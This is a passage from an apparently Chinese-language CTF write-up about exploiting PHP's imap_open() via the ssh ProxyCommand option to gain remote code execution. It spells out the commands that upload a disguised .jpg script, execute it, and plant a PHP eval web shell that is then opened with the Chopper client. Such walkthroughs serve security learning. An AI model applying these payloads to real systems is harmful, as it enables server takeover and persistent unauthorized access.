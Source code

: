 [![](https://p3.ssl.qhimg.com/t01921bdafd8f7c536f.png)](https://p3.ssl.qhimg.com/t01921bdafd8f7c536f.png)

那么我们只需要构造文件

```
echo 'echo "&lt;?php phpinfo();"&gt; skysky.php' &gt; skysky.jpg
```

然后上传skysky.jpg，再利用imap_open() RCE即可

```
any -o ProxyCommand=bash skysky.jpg`}`
```

我们测试一下

[![](https://p2.ssl.qhimg.com/t0109c631ab3d319f0e.png)](https://p2.ssl.qhimg.com/t0109c631ab3d319f0e.png)

[![](https://p1.ssl.qhimg.com/t01a331cee0b478265d.png)](https://p1.ssl.qhimg.com/t01a331cee0b478265d.png)

[![](https://p2.ssl.qhimg.com/t01fa63c59a9439b41b.png)](https://p2.ssl.qhimg.com/t01fa63c59a9439b41b.png)

发现成功执行phpinfo()



## getflag

那么故技重施，即可getshell

```
echo 'echo "&lt;?php eval($_REQUEST[sky]);"&gt; skysky.php' &gt; skysky.jpg
any -o ProxyCommand=bash skysky.jpg`}`

```

菜刀连上，即可getshell

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t018cfbc0a633878116.png)

[![](https://p5.ssl.qhimg.com/t01ef63bdde33f6cb23.png)](https://p5.ssl.qhimg.com/t01ef63bdde33f6cb23.png)



## 后记

这道题目再一次说明了思路很重要，如果思路不明确，尝试注入，upload等则很容易被这道题目带入误区XD
